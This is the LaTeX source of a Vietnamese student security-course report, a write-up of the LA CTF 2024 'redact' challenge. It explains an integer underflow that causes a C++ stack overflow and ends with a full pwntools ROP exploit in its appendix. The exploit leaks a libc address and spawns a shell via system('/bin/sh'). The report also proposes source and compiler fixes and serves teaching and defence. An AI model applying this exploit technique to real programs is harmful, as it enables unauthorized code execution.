\documentclass[12pt,a4paper]{report}

\usepackage[utf8]{vietnam}
\usepackage{graphicx}
\usepackage{amsmath, amsthm, amssymb,latexsym,amscd,amsfonts,enumerate}
\usepackage{algorithm}
\usepackage{algpseudocode}
\usepackage{booktabs}
\usepackage[left=3.5cm,right=2.5cm,top=2cm,bottom=2cm]{geometry} 
\setlength{\parindent}{0pt}
\usepackage{xcolor}
\usepackage{tikz} 
\usepackage{scrextend}
\changefontsizes{14pt}
\usetikzlibrary{calc}

\usepackage[top=3.5cm, bottom=3.0cm, left=3.5cm, right=2.0cm]{geometry} % căn lề theo quy chuẩn KLTN

\usepackage{color, fancyhdr, graphicx, wrapfig}

\usepackage[unicode]{hyperref}
\usepackage{newunicodechar}
\newunicodechar{−}{-}

% --- Custom Packages for Audit Content ---
\usepackage{listings}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{titlesec}

% --- Custom Colors for Code ---
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstset{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\small,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\newtheorem{dn}{Định nghĩa}[section]
\newtheorem{tc}[dn]{Tính chất}
\newtheorem{dl}[dn]{Định lí}
\newtheorem{md}[dn]{Mệnh đề}
\newtheorem{bd}[dn]{Bổ đề}
\newtheorem{hq}[dn]{Hệ quả}
\newtheorem{nx}[dn]{Nhận xét}
\newtheorem{vd}{Ví dụ}

\pagenumbering{roman}
\pagestyle{plain}

\begin{document}

\begin{titlepage}

\begin{tikzpicture}[remember picture,overlay,inner sep=0,outer sep=0]
     \draw[blue!70!black,line width=4pt] ([xshift=-1.5cm,yshift=-2cm]current page.north east) coordinate (A)--([xshift=1.5cm,yshift=-2cm]current page.north west) coordinate(B)--([xshift=1.5cm,yshift=2cm]current page.south west) coordinate (C)--([xshift=-1.5cm,yshift=2cm]current page.south east) coordinate(D)--cycle;

     \draw ([yshift=0.5cm,xshift=-0.5cm]A)-- ([yshift=0.5cm,xshift=0.5cm]B)--
     ([yshift=-0.5cm,xshift=0.5cm]B) --([yshift=-0.5cm,xshift=-0.5cm]B)--([yshift=0.5cm,xshift=-0.5cm]C)--([yshift=0.5cm,xshift=0.5cm]C)--([yshift=-0.5cm,xshift=0.5cm]C)-- ([yshift=-0.5cm,xshift=-0.5cm]D)--([yshift=0.5cm,xshift=-0.5cm]D)--([yshift=0.5cm,xshift=0.5cm]D)--([yshift=-0.5cm,xshift=0.5cm]A)--([yshift=-0.5cm,xshift=-0.5cm]A)--([yshift=0.5cm,xshift=-0.5cm]A);

     \draw ([yshift=-0.3cm,xshift=0.3cm]A)-- ([yshift=-0.3cm,xshift=-0.3cm]B)--
     ([yshift=0.3cm,xshift=-0.3cm]B) --([yshift=0.3cm,xshift=0.3cm]B)--([yshift=-0.3cm,xshift=0.3cm]C)--([yshift=-0.3cm,xshift=-0.3cm]C)--([yshift=0.3cm,xshift=-0.3cm]C)-- ([yshift=0.3cm,xshift=0.3cm]D)--([yshift=0.3cm,xshift=0.3cm]D)--([yshift=-0.3cm,xshift=-0.3cm]D)--([yshift=0.3cm,xshift=-0.3cm]A)--([yshift=0.3cm,xshift=0.3cm]A)--([yshift=-0.3cm,xshift=0.3cm]A);
\end{tikzpicture}

\begin{center}
    \vspace{7pt}
    \textbf{TRƯỜNG ĐẠI HỌC CÔNG NGHỆ} \\
    \textbf{ĐẠI HỌC QUỐC GIA HÀ NỘI}
    \vspace{7pt}
    
    \textbf{KHOA CÔNG NGHỆ THÔNG TIN}
\end{center}

\vspace{10pt}
\begin{center}
    
\includegraphics[scale=0.3]{uet.png}
    
    \vspace{10pt}
    \fontsize{18pt}{17pt}\selectfont 
    \textbf{BÁO CÁO ĐỒ ÁN THỰC HÀNH} 
    
    \vspace{7pt}
    \textbf{AN TOÀN VÀ AN NINH MẠNG (INT3124)}
\end{center}

\begin{flushleft}
    \fontsize{14pt}{17pt}\selectfont  
    \textbf{\textsl{ĐỀ TÀI}}
\end{flushleft}

\begin{center}
    \fontsize{18pt}{17pt}\selectfont 
    \textbf{\textrm{KHAI THÁC LỖ HỔNG INTEGER UNDERFLOW VÀ ROP CHAIN TRONG ỨNG DỤNG C++ (REDACT-LACTF)}}
\end{center}

\vspace{15pt}
\textbf{Giảng viên hướng dẫn: [Tên Giảng Viên]}

\vspace{10pt}
\textbf{Sinh viên thực hiện:}

\begin{tabbing}
\hspace{8cm}\=\hspace{3cm}\=\hspace{3cm} \kill
{\it \textbf{Họ và tên}}\>{\it \textbf{MSSV}}\\
\begin{bfseries}Bùi Minh Hoàng\end{bfseries}\> \begin{bfseries}23021557\end{bfseries}\\
\begin{bfseries}Đào Phương Nam\end{bfseries}\> \begin{bfseries}23021639\end{bfseries}\\
\end{tabbing}

\vspace{10pt}
\begin{center}
    \textbf{Hà Nội, 2026}
\end{center}
\end{titlepage}

\chapter*{Lời nói đầu}
\addcontentsline{toc}{chapter}{{\bf Lời nói đầu}\rm}

Trong báo cáo này, tôi trình bày kết quả của quá trình thực tập và nghiên cứu về an toàn thông tin, cụ thể là việc phân tích và khai thác lỗ hổng trong một ứng dụng C++. Qua việc áp dụng các kiến thức đã học về quản lý bộ nhớ, kiến trúc máy tính và kỹ thuật Return-Oriented Programming (ROP), tôi đã xây dựng thành công kịch bản khai thác cho thử thách "redact".

tôi xin gửi lời cảm ơn chân thành đến giảng viên hướng dẫn đã tạo điều kiện và định hướng cho tôi hoàn thành đồ án này.

\tableofcontents

\chapter{Tóm tắt}
\pagenumbering{arabic}

Báo cáo này trình bày quy trình kiểm thử xâm nhập và khai thác lỗ hổng bảo mật trong ứng dụng C++ "redact". Qua phân tích tĩnh và động, nhóm thực hiện đã xác định được lỗi Integer Underflow dẫn đến tràn bộ đệm trên Stack (Stack-based Buffer Overflow). Bằng cách sử dụng kỹ thuật ROP (Return-Oriented Programming), tôi đã vượt qua các cơ chế bảo mật như ASLR và NX để chiếm quyền điều khiển hệ thống. Kết quả thực nghiệm cho thấy khả năng thực thi mã từ xa (RCE) hoàn toàn khả thi trên môi trường Linux hiện đại.

\chapter{Giới thiệu đề tài và mục tiêu}
\section{Giới thiệu đề tài}
Thử thách "redact" là một bài toán Pwn từ giải LA CTF 2024. Ứng dụng được viết bằng C++ với mục đích "che giấu" (redact) các phần của văn bản nhưng lại chứa lỗi logic nghiêm trọng trong việc kiểm tra biên. Đây là một ví dụ điển hình về việc sự thiếu an toàn trong C++ có thể dẫn đến hậu quả nghiêm trọng nếu không được xử lý đúng cách.

\section{Mục tiêu}
\begin{itemize}
    \item Xác định và chứng minh lỗ hổng trong mã nguồn C++.
    \item Tái hiện lỗi tràn bộ đệm thông qua việc điều khiển các thanh ghi RIP và RSP.
    \item Xây dựng kịch bản khai thác hoàn chỉnh (exploit script) vượt qua ASLR.
    \item Chiếm quyền điều khiển (get shell) và đọc cờ (flag) từ server.
    \item Đề xuất các biện pháp phòng thủ hiệu quả cho nhà phát triển.
\end{itemize}

\chapter{Bối cảnh challenge và kiến thức nền liên quan}
\section{Bối cảnh challenge}
Môi trường thực thi: Docker container (\texttt{debian@sha256:98d3b...}), binary được biên dịch với các tùy chọn:
\begin{itemize}
    \item \texttt{-no-pie}: Địa chỉ mã nguồn cố định (0x400000).
    \item \texttt{-fno-stack-protector}: Không có stack canary để bảo vệ địa chỉ trả về.
    \item \texttt{NX enabled}: Ngăn chặn thực thi shellcode trực tiếp trên Stack.
\end{itemize}

\section{Kiến thức nền liên quan}
\begin{itemize}
    \item \textbf{Integer Underflow}: Xảy ra khi kết quả của một phép trừ số không dấu (\texttt{size\_t}) nhỏ hơn 0, dẫn đến giá trị cực lớn (ví dụ: \texttt{0 - 1 = 0xFFFFFFFFFFFFFFFF}).
    \item \textbf{Small String Optimization (SSO)}: Cơ chế của \texttt{std::string} lưu trữ chuỗi <= 15 bytes trực tiếp trên Stack để tăng hiệu năng.
    \item \textbf{ROP (Return-Oriented Programming)}: Sử dụng các gadgets (\texttt{pop rdi; ret}) để thiết lập đối số hàm và điều khiển luồng thực thi thông qua bảng PLT/GOT.
\end{itemize}

\chapter{Môi trường thực nghiệm và công cụ sử dụng}
\begin{itemize}
    \item Hệ điều hành: EndeavourOS (Linux), kernel 6.x.
    \item Trình gỡ lỗi: \texttt{gdb} (với \texttt{pwndbg}) để quan sát bộ nhớ và thanh ghi.
    \item Khai thác: \texttt{python3} với thư viện \texttt{pwntools} để tương tác với binary.
    \item Phân tích: \texttt{objdump}, \texttt{ROPgadget} để tìm địa chỉ các hàm và gadgets.
    \item Docker: Để đảm bảo tính nhất quán của ABI và Libc.
\end{itemize}

\chapter{Quy trình thực hiện từng bước}
\section{Xác định lỗi Integer Underflow}
Đoạn mã sau trong \texttt{redact.cpp} chứa lỗi logic:
\begin{lstlisting}[language=C++]
if (index < 0 || index > text.size() - placeholder.size()) { ... }
\end{lstlisting}
Khi \texttt{placeholder.size() > text.size()}, phép trừ \texttt{text.size() - placeholder.size()} sẽ bị underflow, cho phép \texttt{index} nhận các giá trị lớn hơn kích thước thực tế của \texttt{text}.

\section{Tìm Offset bằng Cyclic Pattern}
tôi sử dụng \texttt{cyclic(100)} và quan sát bằng GDB để tìm địa chỉ trả về bị ghi đè.
\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.8\textwidth]{gdb.png}
    \caption{Phát hiện Segfault tại lệnh \texttt{ret} với giá trị stack \texttt{0x6161617461616173}}
\end{figure}
Kết quả tính toán cho thấy offset chính xác là 72 bytes.

\section{Xây dựng ROP Chain Stage 1: Rò rỉ địa chỉ Libc}
Do ASLR được bật, địa chỉ Libc thay đổi mỗi lần chạy. tôi thiết lập \texttt{RDI} là địa chỉ \texttt{std::cout} và \texttt{RSI} là địa chỉ GOT của \texttt{\_\_libc\_start\_main} để in ra địa chỉ thực tế.

\section{Xây dựng ROP Chain Stage 2: Thực thi Shell}
\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.8\textwidth]{solve.png}
    \caption{Kịch bản khai thác hoàn chỉnh sử dụng \texttt{pwntools}}
\end{figure}
Sau khi tính toán được địa chỉ cơ sở của Libc, tôi gọi \texttt{system("/bin/sh")} với một \texttt{ret} gadget để căn lề stack 16-byte.

\chapter{Kết quả thu được}
\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.8\textwidth]{result.png}
    \caption{Chiếm quyền điều khiển thành công và đọc Flag}
\end{figure}
Kết quả thực thi thành công trên máy cục bộ:
\begin{lstlisting}[language=bash]
$ whoami
thep1ckaxe
$ cat flag.txt
lactf{1_l0v3_c++_L2zuBdqJABGU}
\end{lstlisting}

\chapter{Phân tích kỹ thuật và phân tích phòng thủ}
\section{Phân tích kỹ thuật}
Cuộc tấn công lợi dụng việc \texttt{std::copy} không kiểm tra giới hạn của buffer đích một cách an toàn khi có lỗi underflow. Dữ liệu từ \texttt{placeholder} được chép đè qua vùng nhớ của \texttt{text}, ghi đè lên \texttt{RBP} và \texttt{RIP}. Đây là một lỗi tràn bộ đệm cổ điển nhưng được kích hoạt qua một lỗi logic số nguyên hiện đại.

\section{Phân tích phòng thủ}
\begin{itemize}
    \item \textbf{Fix mã nguồn}: Sử dụng \texttt{if (index + placeholder.size() > text.size())} thay vì phép trừ.
    \item \textbf{Biên dịch an toàn}: Luôn bật Stack Canaries (\texttt{-fstack-protector-all}) và PIE (\texttt{-fPIE -pie}) để tăng độ khó cho ROP.
    \item \textbf{Sử dụng hàm an toàn}: Ưu tiên các phương thức của lớp \texttt{std::string} như \texttt{replace()} có kiểm tra biên nội bộ thay vì \texttt{std::copy} thô.
\end{itemize}

\chapter{Kết luận}
Thông qua đồ án, tôi đã hiểu sâu hơn về cách các ứng dụng C++ quản lý bộ nhớ và cách các lỗ hổng logic đơn giản có thể dẫn đến việc chiếm toàn quyền hệ thống. Kỹ thuật ROP vẫn là một công cụ mạnh mẽ để vượt qua các cơ chế bảo mật hiện đại nếu cấu hình biên dịch không được tối ưu.

\appendix
\chapter{Phụ lục}
\section{Mã nguồn khai thác (solve.py)}
\begin{lstlisting}[language=Python]
from pwn import *

exe = ELF("./redact")
libc = exe.libc
context.binary = exe

r = process([exe.path])

rop1 = ROP(exe, badchars=b"\n")
rop1.call("_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc", 
          (exe.symbols["_ZSt4cout"], exe.got.__libc_start_main))
rop1.raw(rop1.find_gadget(["ret"]))
rop1.main()

r.sendlineafter(b"text: ", b"")
r.sendlineafter(b"placeholder: ", rop1.generatePadding(0, 72) + rop1.chain())
r.sendlineafter(b"redact: ", b"0")
r.recvline()

leak = unpack(r.recvuntil(b"Enter", drop=True).ljust(8, b"\0"))
libc.address = leak - libc.symbols.__libc_start_main

rop2 = ROP([exe, libc], badchars=b'\n')
rop2.raw(0x401016) # ret gadget
rop2.system(next(libc.search(b"/bin/sh")))

r.sendlineafter(b"placeholder: ", b"A"*72 + rop2.chain())
r.sendlineafter(b"redact: ", b"0")

r.interactive()
\end{lstlisting}

\end{document}
